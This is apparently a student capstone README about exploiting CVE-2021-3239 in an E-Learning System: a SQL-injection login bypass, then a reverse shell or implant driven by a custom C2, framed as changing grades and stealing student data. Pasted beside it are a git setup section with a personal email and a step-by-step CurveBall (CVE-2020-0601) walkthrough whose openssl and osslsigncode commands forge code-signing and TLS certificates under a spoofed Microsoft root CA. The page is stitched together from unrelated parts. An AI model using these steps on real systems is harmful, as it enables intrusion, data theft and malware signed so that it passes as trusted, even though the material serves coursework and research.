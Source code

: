# CS590J Capstone 

The general idea: Victim is a school education system that has all the grades and tons of student/teacher information. Let's assume this is all stored on the same machine and we can put all these files on the desktop. We are a student that wants to have malicious access to this system to modify school files (change our grades, attendance), spy on peer's information, and whatever teacher files are on the computer (data modification and exfil). There is a vulnerability in the system (CVE-2021-3239): "E-Learning System 1.0" (an actual piece of software submitted to an open source website which was used by a public school in the Philippines) is vulnerable to SQL injection and we are able to authenticate by SQL injecting an "or TRUE" into the unsanitized login screen and then gain a reverse shell or install an implant. From here the implant runs and we connect to it via a C2 software that we wrote so that we can choose which data and when to extract it or when to abort.

#How to setup the victim and environment
To test this out, generally follow the setup instructions here: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html.
- First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 7 GB RAM, but more is better of course. All future instructions are from this VM.
- Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.
- Install netcat through nmap https://nmap.org/
- Install the most recent version of Python and pip install requests and colorama (it's a lot easier to see colored text stand out)
- Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.
- Execute the python script (exploit.py) from anywhere (on the VM unless you specify the ports from another machine - we need to modify the code if we want it to open a port onto another VM). 
```
python exploit.py
``` 
- From here there are two options: either install and run the implant (enter 'i' when it prompts you to) and connect to the c2 server in another window by doing
```
python c2.py
``` 
- ...or just gain a reverse shell without installing the implant where you have another window running:
```
ncat -l 9999
```
- All in all the reverse shell looks like so:
![Image of the Reverse Shell](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example.png)
- And the C2 looks like so
![Image of the C2](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example2.png)


##How to Setup GitHub
Generate SSH Keys
- sudo apt-get install git
- git config --global user.email "yealsh21@gmail.com"
- git config --global user.name "Yefim"
- ssh-keygen -t ed25519 -C "yealsh21@gmail.com"
- eval "$(ssh-agent -s)"
- ssh-add ~/.ssh/id_ed25519
- sudo apt-get install xclip
- xclip -selection clipboard < ~/.ssh/id_ed25519.pub

Add SSH Keys
- Login to GitHub, click profile, click settings and add SSH Key. Paste Key, give any title.

Clone the Repository
- git clone git@github.com:yshneyderman/CS590J-Capstone.git

Install Ruby:
- sudo apt update
- sudo apt install ruby

Adding changes (to a branch)
- git commit -a -m "What I changed"
- git push

#CurveBall (CVE-2020-0601) Exploit



## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
*Please use this for educational and researching purposes only.* 
Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a SSL certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

If you wish to change the domain name, edit `CN  = www.google.com` to `CN  = www.example.com` inside of `openssl_tls.conf`.

    openssl req -new -key cert.key -out cert.csr -config openssl_tls.conf -reqexts v3_tls
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_tls.conf -extensions v3_tls
You can now use `cert.crt`, `cert.key`, and `spoofed_ca.crt` to serve your content. Again, remember to add the spoofed_ca.crt as a certificate chain in your server's HTTPS configuration.

See the usage example in [https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).

